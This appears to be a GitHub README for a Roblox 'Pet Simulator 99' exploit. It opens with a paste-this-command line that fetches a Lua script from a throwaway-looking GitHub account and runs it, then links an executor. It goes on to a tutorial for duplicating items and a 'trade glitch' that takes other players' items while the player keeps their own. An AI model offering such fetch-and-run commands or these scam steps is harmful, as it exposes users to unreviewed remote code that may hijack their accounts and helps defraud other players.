 # Stuff you need
## SCRIPT
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/totallynotanaltaccount928/thing/main/petsimlag.lua'))()
```
## Executer I use
[Arceus X Discord](https://discord.gg/arceus)
[Emulator I use, MEMU](https://www.memuplay.com/)
# Tutorial for Dupe & Trade Glitch
## How does this work?
This script works by sending invalid packets to the Pet Simulator 99 servers, causing them to not be able to store new data. Anything you do from this point on can and will be reverted.
### Dupe
What you need
- An alt
- Another method of joining the game
- 10k+ gems + stuff you want to dupe

This method utilizes the mailbox and the script.

!!!EXECUTE THE SCRIPT WHEN YOU JOIN!!!

Simply send any item you want to dupe to your alt account (AFTER EXECUTING SCRIPT)

When you leave and rejoin, your items will still be there, however they will still be sent to your alt.

!!DO NOT!!
Join the same game as your alt.

This will delete the duped item. You must sell this item before joining a server with your main, then you can transfer diamonds/ other goods you got.

### Trade Glitch

Don't have any good items? Well this is the glitch for you

What you need

- An item with ANY value at all

This method utilizes other people.

!!!EXECUTE THE SCRIPT WHEN YOU JOIN!!!

Give them a great offer that they can't refuse, accept the trade, but quickly unaccept. Take away all the items you put in.

On their screen all the items will still be there, however you will not lose any items, but gain theirs.

REPEAT FOR INFINITE WEALTH


